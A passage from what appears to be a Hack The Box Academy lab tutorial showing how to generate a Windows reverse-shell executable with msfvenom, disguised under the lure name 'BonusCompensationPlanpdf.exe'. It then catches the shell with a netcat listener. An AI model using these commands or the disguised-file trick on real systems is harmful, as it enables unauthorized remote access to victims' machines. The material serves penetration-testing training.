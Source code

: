 ```
Pictures
Public
Templates
Videos
```

This same concept can be used to create payloads for various platforms, including Windows.

---

## **Building a simple Stageless Payload for a Windows system**

We can also use msfvenom to craft an executable (`.exe`) file that can be run on a Windows system to provide a shell.

### **Windows Payload**

```
th1nyunb0y@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

```

The command syntax can be broken down in the same way we did above. The only differences, of course, are the `platform` (`Windows`) and format (`.exe`) of the payload.

---

## **Executing a Simple Stageless Payload On a Windows System**

This is another situation where we need to be creative in getting this payload delivered to a target system. Without any `encoding` or `encryption`, the payload in this form would almost certainly be detected by Windows Defender AV.

![https://academy.hackthebox.com/storage/modules/115/winpayload.png](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```
th1nyunb0y@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
```